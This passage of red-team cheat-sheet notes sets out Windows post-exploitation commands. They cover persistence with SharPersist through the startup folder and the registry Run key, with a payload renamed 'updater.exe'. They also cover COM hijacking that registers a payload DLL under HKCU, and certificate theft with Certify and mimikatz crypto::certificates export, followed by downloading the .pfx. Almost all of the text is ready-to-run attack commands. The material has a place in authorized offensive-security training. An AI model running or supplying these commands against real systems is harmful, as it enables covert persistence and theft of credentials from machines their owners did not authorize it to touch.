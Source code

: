 Remove
`execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -f "UserEnvSetup" -m remove`
#### Registry AutoRun
`cd C:\ProgramData`
`upload C:\Payloads\http_x64.exe`
`mv http_x64.exe updater.exe`
`execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -k "hkcurun" -v "Updater" -c "C:\ProgramData\updater.exe" -a "/q /n" -m add`

Remove
`execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -k "hkcurun" -v "Updater" -m remove`
#### COM Hijacks

Hunt Processes
In Process Monitor Filter,
- *Operation* is *RegOpenKey*
- *Result* is *NAME NOT FOUND*
- *Path* ends with *InprocServer32*
Launch random applications to generate events

Hunt Scheduled Tasks
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks) {
	if ($Task.Actions.ClassId -ne $null) {
		if ($Task.Triggers.Enabled -eq $true) {
			if ($Task.Principal.GroupId -eq "Users") {
				Write-Host "Task Name: " $Task.TaskName
				Write-Host "Task Path: " $Task.TaskPath
				Write-Host "CLSID: " $Task.Actions.ClassId
				Write-Host
			}
		}
	}
}
```
In Task Scheduler, check Triggers for TaskName
`Get-ChildItem -Path "Registry::HKCR\CLSID\{[clsid]}"`→ confirm Name is InprocServer32

COM Hijack
`Get-Item -Path "HKLM:[path]"`→ this path probably exists
`Get-Item -Path "HKCU:[path]"`→ ensure this path does not exist
`New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{[clsid]}"`
`New-Item -Path "HKCU:Software\Classes\CLSID\{[clsid]}" -Name "InprocServer32" -Value "[payload].dll"`
`New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{[clsid]}\InprocServer32" -Name "ThreadingModel" -Value Both`
**Note:** change Software\\Classes\\CLSID to match path as necessary

Remove
`Remove-Item -Path "HKCU:Software\Classes\CLSID" -Name "{[clsid]}"`
`rm [payload].dll`
#### Certificate
`execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates`→ check for "Certificate is used for client authentication!"
if no cert found: `execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:[ca] /template:User`
`mimikatz crypto::certificates /export`
`download [cert].pfx`

